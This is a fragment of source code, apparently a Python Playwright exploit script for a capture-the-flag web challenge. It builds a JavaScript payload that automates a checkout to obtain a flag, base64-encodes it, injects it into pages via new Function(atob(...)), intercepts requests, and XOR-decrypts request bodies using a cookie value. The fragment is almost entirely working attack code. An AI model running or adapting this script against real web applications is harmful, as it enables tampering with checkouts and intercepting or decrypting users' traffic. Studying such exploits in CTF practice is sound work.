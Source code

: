 ```py

                        if (response.status === 400) {
                            logToPage('[!] Received status 400 at checkout. Saving progress and reloading...');
                            setProgress('checkout', session_id);
                            location.reload();
                            return;
                        }
                        if (!response.ok) throw new Error(`Checkout failed: ${response.status}`);
                        
                        const data = await response.json();
                        logToPage("[*] Checkout response:");
                        logToPage(data);

                        if ("order_id" in data) {
                          logToPage("=====================================");
                          logToPage("✅ FLAG FOUND ✅");
                          logToPage(data.order_id);
                          logToPage("=====================================");
                          document.querySelector('h1').textContent = 'Exploit Complete: FLAG FOUND!';
                          clearProgress();
                        } else {
                          throw new Error("Checkout succeeded but no flag was found.");
                        }
                    }

                  } catch (err) {
                    logToPage("FATAL ERROR during workflow: " + err.message);
                    document.querySelector('h1').textContent = 'Exploit FAILED!';
                    clearProgress();
                  }
                })();
            }, 3000);
        """

        # --- Create the final script to inject ---
        encoded_exploit = base64.b64encode(exploit_payload.encode('utf-8')).decode('ascii')
        injector_script = f"const b64='{encoded_exploit}';new Function(atob(b64))();"

        async def log_and_modify_request(route, request):
            url = request.url
            if url.endswith("/.well-known/appspecific/com.chrome.devtools.json"):
                await route.fulfill(status=404, content_type="text/plain", body="Not Found")
                return

            print("=" * 80)
            print(f"➡️  REQUEST: {request.method} {url}")
            if request.post_data:
                cookies = await page.context.cookies()
                x_cookie = next((c['value'] for c in cookies if c['name'] == 'x'), None)
                if x_cookie:
                    try:
                        decrypted_bytes = xor_decrypt(request.post_data, x_cookie)
                        print("   🔓 Decrypted Body (hex):", decrypted_bytes.hex())
                    except Exception as e:
                        print("   (Couldn't decrypt body)", str(e))
            
            try:
                response = await route.fetch()
                if response.headers.get("content-type", "").startswith("text/html"):
                    body = await response.text()
                    
```